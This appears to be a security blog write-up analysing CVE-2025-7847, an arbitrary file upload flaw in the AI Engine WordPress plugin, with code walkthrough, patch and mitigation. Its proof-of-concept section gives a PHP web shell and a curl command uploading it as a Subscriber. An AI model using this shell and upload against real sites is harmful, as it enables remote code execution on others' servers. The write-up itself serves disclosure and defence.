

<!--more-->

## CVE & Basic Info

The **AI Engine** plugin for **WordPress** contains an **arbitrary file upload** vulnerability due to missing **file type validation** in the `rest_simpleFileUpload()` function in versions **2.9.3** and **2.9.4**.
This allows **authenticated attackers** (attackers with authentication), with **Subscriber-level** privileges or higher, to **upload arbitrary files** to the affected website's **server** when the **REST API** is enabled, which can lead to **remote code execution (RCE)**.

* **CVE ID**: [CVE-2025-7847](https://www.cve.org/CVERecord?id=CVE-2025-7847)
* **Vulnerability Type**: Arbitrary File Upload
* **Affected Versions**: 2.9.3-2.9.4
* **Patched Versions**: 2.9.5
* **CVSS severity**: High (9.9)
* **Required Privilege**: Subscriber
* **Product**: [WordPress AI Engine Plugin](https://wordpress.org/plugins/ai-engine/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **AI Engine**:

  * `2.9.4` – **vulnerable**
  * `2.9.5` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Cause

The vulnerability occurs because the upload handling function writes files directly (`copy()`, `file_put_contents()`) without **checking file type or authenticating the user**, allowing an attacker to **upload arbitrary files (including `.php`)** into the uploads directory and execute malicious code.


```php
// Validate filename extension for base64 uploads
$validate = wp_check_filetype( $filename );
if ( $validate['type'] == false ) {
  throw new Exception( 'File type is not allowed.' );
}
```

The patch added file type checks in the `simpleFileUpload` and `upload_file` functions using `wp_check_filetype()` to only allow uploads for valid formats based on WordPress's whitelist.

## Code Analysis

The plugin registers several public APIs via the `rest_api_init()` function

```php {data-open=true title="api.php" hl_lines=[3,8,12,14]}
public function rest_api_init() {
  $public_api = $this->core->get_option( 'public_api' );
  if ( !$public_api ) {
    return;
  }
  $this->bearer_token = $this->core->get_option( 'public_api_bearer_token' );
  if ( !empty( $this->bearer_token ) ) {
    add_filter( 'mwai_allow_public_api', [ $this, 'auth_via_bearer_token' ], 10, 3 );
  }
  register_rest_route( 'mwai/v1', '/simpleFileUpload', [
    'methods' => 'POST',
    'callback' => [ $this, 'rest_simpleFileUpload' ],
    'permission_callback' => function ( $request ) {
      return $this->core->can_access_public_api( 'simpleFileUpload', $request );
    },
  ] );
  ...
}
```

The function checks whether the **Public API** option is enabled. According to the plugin [documentation](https://ai.thehiddendocs.com/public-rest-api/), this option is disabled by default:

> By default, the Public REST API is disabled completely. If you enable it, only authentified API requests will actually go through, otherwise they will be rejected. You can override this behavior in many ways and we will see a few examples. The Public REST API is also limited by the Limits set in AI Engine (either as Users or Guests, and System).

You can enable it in the Admin Dashboard at `wp-admin/admin.php?page=mwai_settings&nekoTab=settings`


According to the description, when this option is enabled, only `authenticated API requests` are accepted. There are two authentication methods:

* `X-WP-Nonce`: Obtained via the JavaScript object `wpApiSettings` for logged-in users (Subscriber+)
* `Bearer Token`: Configured by the admin

```php
$this->bearer_token = $this->core->get_option( 'public_api_bearer_token' );
if ( !empty( $this->bearer_token ) ) {
  add_filter( 'mwai_allow_public_api', [ $this, 'auth_via_bearer_token' ], 10, 3 );
}
```

When a Bearer Token is set, the plugin **registers a filter** named `mwai_allow_public_api`,
with the **callback** being the method `auth_via_bearer_token`.

```php
register_rest_route( 'mwai/v1', '/simpleFileUpload', [
  'methods' => 'POST',
  'callback' => [ $this, 'rest_simpleFileUpload' ],
  'permission_callback' => function ( $request ) {
    return $this->core->can_access_public_api( 'simpleFileUpload', $request );
  },
] );
```

An API is registered with method POST:

* Endpoint: `/wp-json/mwai/v1/simpleFileUpload`
* Callback: `rest_simpleFileUpload`

With `permission_callback` being the return value of `can_access_public_api()`

```php {data-open=true title="core.php" hl_lines=[]}
public function can_access_public_api( $feature, $extra ) {
  $logged_in = is_user_logged_in();
  return apply_filters( 'mwai_allow_public_api', $logged_in, $feature, $extra );
}
```

In the WP REST API, the function `is_user_logged_in()` will return:

* `true`: If the user is logged in and the **X-WP-Nonce** header is valid
* `false`: If the user is not logged in or the **X-WP-Nonce** header is invalid

`can_access_public_api` will call the `mwai_allow_public_api` filter registered above => `auth_via_bearer_token($logged_in, $feature, $extra)` is invoked

```php {data-open=true title="api.php" hl_lines=[]}
public function auth_via_bearer_token( $allow, $feature, $extra ) {
  if ( !empty( $extra ) && !empty( $extra->get_header( 'Authorization' ) ) ) {
    $token = $extra->get_header( 'Authorization' );
    $token = str_replace( 'Bearer ', '', $token );
    if ( $token === $this->bearer_token ) {
      // We set the current user to the first admin.
      $admin = $this->core->get_admin_user();
      wp_set_current_user( $admin->ID, $admin->user_login );
      return true;
    }
  }
  return $allow;
}
```

The `auth_via_bearer_token()` function authenticates using a Bearer Token.
Its process:

* If the request has an `Authorization` header containing `Bearer <token>`
  and the `<token>` value matches the token stored in the option (`$this->bearer_token`), then:

  * Set the current user to the first admin (`wp_set_current_user()`),
  * Return `true` → allow API access.

* If absent or the token is incorrect → return `$allow`,
  i.e., the initial result from `is_user_logged_in()`.

> [!INFO]
> By default, there will be no **Bearer Token** for authentication, so we rely on a valid **X-WP-Nonce** of a Subscriber user => `permission_callback=true`

---

```php {data-open=true title="api.php" hl_lines=[10,28]}
public function rest_simpleFileUpload( $request ) {
  try {
    $params = $request->get_params();
    $files = $request->get_file_params();
    
    // Check if file is provided
    if ( empty( $files['file'] ) ) {
      // Check for base64 encoded file data
      ...
      $result = $this->simpleFileUpload( null, $base64, $filename, $purpose, $ttl, $target, $metadata );
    }
    else {
      // Handle regular file upload
      $file = $files['file'];
      $purpose = isset( $params['purpose'] ) ? $params['purpose'] : 'files';
      $ttl = isset( $params['ttl'] ) ? intval( $params['ttl'] ) : 3600;
      $target = isset( $params['target'] ) ? $params['target'] : null;
      $metadata = isset( $params['metadata'] ) ? $params['metadata'] : [];
      
      if ( $this->debug ) {
        $debug = sprintf( 'REST [SimpleFileUpload]: file upload, name=%s, purpose=%s', 
          $file['name'], 
          $purpose 
        );
        Meow_MWAI_Logging::log( $debug );
      }
      
      $result = $this->simpleFileUpload( $file, null, null, $purpose, $ttl, $target, $metadata );
    }
    
    return new WP_REST_Response( [ 'success' => true, 'data' => $result ], 200 );
  }
  catch ( Exception $e ) {
    return new WP_REST_Response( [ 'success' => false, 'message' => $e->getMessage() ], 500 );
  }
}
```

The `rest_simpleFileUpload()` function handles file uploads via the REST API.

* Retrieves parameters and files from `$request`.
* If no file is present, checks for base64 data and calls `$this->simpleFileUpload()`.
* If a file is present, retrieves optional parameters (`purpose`, `ttl`, `target`, `metadata`), logs if debug is enabled, then calls `$this->simpleFileUpload()`.
* Returns a `WP_REST_Response` with `success => true` and the file data, or `success => false` if an error occurs.

```php {data-open=true title="api.php" hl_lines=[13]}
public function simpleFileUpload( $file = null, $base64 = null, $filename = null, $purpose = 'files', $ttl = 3600, $target = null, $metadata = [] ) {
  ...
  try {
    if ( !empty( $base64 ) ) {
     ...
    }
    else if ( !empty( $file ) && is_array( $file ) ) {
      // Handle regular file upload
      if ( !empty( $file['error'] ) ) {
        throw new Exception( 'File upload error: ' . $file['error'] );
      }
      
      $refId = $this->core->files->upload_file(
        $file['tmp_name'],
        $file['name'],
        $purpose,
        $metadata,
        null, // envId
        $target,
        $ttl
      );
      
      $url = $this->core->files->get_url( $refId );
      
      return [
        'id' => $refId,
        'url' => $url
      ];
    }
    else {
      throw new Exception( 'Either a file or base64 data must be provided.' );
    }
  }
  catch ( Exception $e ) {
    throw new Exception( 'File upload failed: ' . $e->getMessage() );
  }
}
```

The `simpleFileUpload()` function performs an upload from either file or base64 data.

* If `$base64` is not empty → handle upload from base64.
* If `$file` is a valid array:

  * Check upload error (`$file['error']`) → throw Exception if present.
  * Call `$this->core->files->upload_file()` to save the file.
  * Get the file URL via `$this->core->files->get_url($refId)` and return an array `['id' => $refId, 'url' => $url]`.

```php
public function upload_file($path,$filename = null,$purpose = null,$metadata = null,$envId = null,$target = null,$expiry = null) {
  require_once( ABSPATH . 'wp-admin/includes/image.php' );
  require_once( ABSPATH . 'wp-admin/includes/file.php' );
  require_once( ABSPATH . 'wp-admin/includes/media.php' );

  $target = empty( $target ) ? $this->core->get_option( 'image_local_upload' ) : $target;
  $expiry = empty( $expiry ) ? $this->core->get_option( 'image_expires' ) : $expiry;

  $expires = ( $expiry === 'never' || empty( $expiry ) ) ? null : date( 'Y-m-d H:i:s', time() + intval( $expiry ) );
  $refId = $this->generate_refId();
  $url = null;
  if ( empty( $filename ) ) {
    $parsed_url = parse_url( $path, PHP_URL_PATH );
    $filename = basename( $parsed_url );
    $extension = pathinfo( $filename, PATHINFO_EXTENSION );
  }
  else {
    $extension = pathinfo( $filename, PATHINFO_EXTENSION );
  }
  $newFilename = $refId . '.' . $extension;
  $unique_filename = wp_unique_filename( wp_upload_dir()['path'], $newFilename );
  $destination = wp_upload_dir()['path'] . '/' . $unique_filename;

  if ( $target === 'uploads' ) {
    if ( !$this->check_db() ) {
      throw new Exception( 'Could not create database table.' );
    }
    if ( !copy( $path, $destination ) ) {
      throw new Exception( 'Could not move the file.' );
    }
    $url = wp_upload_dir()['url'] . '/' . $unique_filename;

    $now = date( 'Y-m-d H:i:s' );
    $fileId = $this->commit_file( [
      'refId' => $refId,
      'envId' => $envId,
      'purpose' => $purpose,
      'type' => null,
      'status' => 'uploaded',
      'created' => $now,
      'updated' => $now,
      'expires' => $expires,
      'path' => $destination,
      'url' => $url
    ] );
    if ( $metadata && is_array( $metadata ) ) {
      foreach ( $metadata as $metaKey => $metaValue ) {
        $this->add_metadata( $fileId, $metaKey, $metaValue );
      }
    }

  }
  else if ( $target === 'library' ) {

    if ( filter_var( $path, FILTER_VALIDATE_URL ) ) {
      $tmp = download_url( $path );
      if ( is_wp_error( $tmp ) ) {
        throw new Exception( $tmp->get_error_message() );
      }
      $file_array = [ 'name' => $unique_filename, 'tmp_name' => $tmp ];
    }
    else {
      $file_array = [ 'name' => $unique_filename, 'tmp_name' => $path ];
    }

    $id = media_handle_sideload( $file_array, 0 );
    if ( is_wp_error( $id ) ) {
      throw new Exception( $id->get_error_message() );
    }

    $url = wp_get_attachment_url( $id );
    update_post_meta( $id, '_mwai_file_id', $refId );
    update_post_meta( $id, '_mwai_file_expires', $expires );

    // Store additional metadata
    if ( $metadata && is_array( $metadata ) ) {
      foreach ( $metadata as $metaKey => $metaValue ) {
        update_post_meta( $id, '_mwai_' . $metaKey, $metaValue );
      }
    }

    // Store purpose and envId as post meta
    if ( $purpose ) {
      update_post_meta( $id, '_mwai_purpose', $purpose );
    }
    if ( $envId ) {
      update_post_meta( $id, '_mwai_envId', $envId );
    }
  }

  return $refId;
}
```

The `upload_file()` function handles file storage and names files as follows:

* Determine filename and extension: if `$filename` is not provided, extract it from `$path` and preserve the extension.
* Generate a unique filename by concatenating `$refId` with the extension, then use `wp_unique_filename()` to avoid collisions in the upload directory.
* Save the file: if `$target === 'uploads'` it copies into the uploads directory, if `$target === 'library'` it adds it to the Media Library using `media_handle_sideload()`.
* Return `$refId`. The file is stored as `<refId>.<extension>` in the uploads directory or Media Library, with metadata if provided.

## Flow


graph TD
A["POST /wp-json/mwai/v1/simpleFileUpload"] --> B{"permission_callback"}
B -- Authenticated (X-WP-Nonce or Bearer) --> C["rest_simpleFileUpload()"]
C --> D["simpleFileUpload()"]
D --> E["files->upload_file(tmp_name, name, target, ...)"]
E --> F["Determine extension → newFilename = refId.extension"]
F --> G{"target === 'uploads' ?"}
G -- Yes --> H["copy(path, destination) → file placed in uploads"]
H --> I{"No filetype validation"}
I -- Yes --> J["Uploaded .php accessible via URL"]
J --> L["Response contain URL to file"]
L --> K["Execute PHP → Remote Code Execution (RCE)"]


## Proof of Concept (PoC)

1. Create a web shell

```php
<?php system($_REQUEST["cmd"]); ?>
```

2. Upload the web shell

```sh
curl -X POST \
  "http://localhost/wp-json/mwai/v1/simpleFileUpload" \
  -H "X-WP-Nonce: 51e6c4a45a" \
  -F "file=@rce.php" \
  -b "wp-settings-time-1=1762427921;
      wp-settings-1=libraryContent%3Dbrowse%26editor%3Dtinymce;
      wordpress_test_cookie=WP%20Cookie%20check;
      PHPSESSID=9d30c6b076551e37fb4ed7968fd5de98;
      wp_lang=en_US;
      wordpress_logged_in_86a9106ae65537651a8e456835b316ab=sub%7C1762706307%7C3gOEpWVViHcurttDwNTWxn1b5CWvZGdOajkR5cjzW3e%7Cda0f415f7f042d4095dbeac711e1742cc23db9ea1d020adbae5c385a36b65b98;
      wp-settings-5=mfold%3Do;
      wp-settings-time-5=1762533510" \
  --proxy 127.0.0.1:8080 # Burp proxy
```



3. RCE with the web shell


# Conclusion

CVE-2025-7847 is a serious **arbitrary file upload** vulnerability in **AI Engine 2.9.3–2.9.4**, allowing authenticated users (Subscriber+) to upload arbitrary files to the server via the REST API, leading to **RCE**. Version 2.9.5 fixes the issue by adding file type checks (`wp_check_filetype`).

# Key Takeaways

* The vulnerability only applies when the **Public REST API is enabled** and the user has a **valid X-WP-Nonce** or a Bearer token.
* Root cause: **missing file type validation** and directly copying the file into uploads.
* Mitigation: **update the plugin to 2.9.5**.

## References

[Arbitrary File Upload](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html)

[WordPress AI Engine Plugin 2.9.3-2.9.4 is vulnerable to Arbitrary File Upload](https://patchstack.com/database/wordpress/plugin/ai-engine/vulnerability/wordpress-ai-engine-plugin-2-9-3-2-9-4-authenticated-subscriber-arbitrary-file-upload)
